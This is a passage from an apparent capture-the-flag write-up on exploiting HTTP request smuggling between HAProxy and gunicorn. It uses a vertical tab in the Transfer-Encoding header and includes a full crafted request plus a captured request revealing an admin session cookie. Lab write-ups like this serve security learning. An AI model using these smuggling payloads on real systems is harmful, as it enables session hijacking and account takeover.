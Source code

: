 ### Exploiting HTTP Request Smuggling

The load balancer **HAProxy** sends every request to the web server **gunicorn**.
The TCP-handshake in these requests are bigger than usual, as these rely on **chunking**, which allows to send multiple HTTP requests in a single packet.

In this vulnerability a _vertical tab_ in the _Transfer-Encoding_ header is used, that is ignored by **HAProxy**, but gets processed by **gunicorn** to hijack the request.

The _vertical tab_ is in the ASCII table and has the hex value of _0B_.

Base64-encoding the vertical tab:
```
printf \\x0b | base64

Cw==
```

Sending the headers to the service:
```
GET /home HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5sb2NhbCJ9.Yne0Sw.83Ohi10t3BlFAYZZGP541ni9LFo
Content-Length: 169
Transfer-Encoding:chunked

0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Cookie: session=eyJlbWFpbCI6InRlc3RAdGVzdC5sb2NhbCJ9.Yne2dg.x7eqSTgusGC5cb4oTNa5m7lRdqI
Content-Length: 280

note=
```

The value in the _Transfer-Encoding_ header is _"Cw==chunked"_, but Base64-decoded with **Burpsuite**.
After sending the request several times, it creates two notes with HTTP requests and one of them has different cookies than ours:

![Smuggled Notes](sink_web-3.png)

```
GET /notes/delete/1234 HTTP/1.1 Host: 127.0.0.1:8080 User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 Accept-Encoding: gzip, deflate Accept: */* Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.Ynezqg.8sVu29fOo9GLgGhrZVL-KqSrszs X-Forwa
```
